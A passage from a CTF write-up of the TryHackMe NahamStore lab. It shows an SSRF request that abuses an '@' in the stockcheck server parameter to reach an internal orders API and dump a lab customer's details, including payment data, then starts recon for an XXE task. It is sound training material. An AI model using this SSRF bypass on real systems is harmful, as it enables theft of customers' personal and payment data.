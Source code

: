 **Let's find credit card number for Jimmy Jones!**

```
POST /stockcheck HTTP/1.1
[...]
product_id=1&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a46.png)

```json
{
    "id": "5ae19241b4b55a360e677fdd9084c21c",
    "customer": {
        "id": 2,
        "name": "Jimmy Jones",
        "email": "jd.jones1997@yahoo.com",
        "tel": "501-392-5473",
        "address": {
            "line_1": "3999 Clay Lick Road",
            "city": "Englewood",
            "state": "Colorado",
            "zipcode": "80112"
        },
        "items": [
            {
                "name": "Hoodie + Tee",
                "cost": "25.00"
            }
        ],
        "payment": {
            "type": "MasterCard",
            "number": "{Redacted}",
            "expires": "11/2023",
            "CVV2": "223"
        }
    }
}
```

# Task 8 - XXE

```
Somewhere in the application. there is an endpoint that is vulnerable to an XXE attack. You can use this vulnerability to retrieve files on the server. We've hidden a flag in /flag.txt to find.
```

1. XXE Flag

**In the `stock.nahamstore.thm` subdomain, we can query one of the product's stock.**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl http://stock.nahamstore.thm/product      
{"items":[{"id":1,"name":"Hoodie + Tee","stock":56,"endpoint":"\/product\/1"},{"id":2,"name":"Sticker Pack","stock":293,"endpoint":"\/product\/2"}]}                                                                                                           

┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl http://stock.nahamstore.thm/product/1
{"id":1,"name":"Hoodie + Tee","stock":56}
```
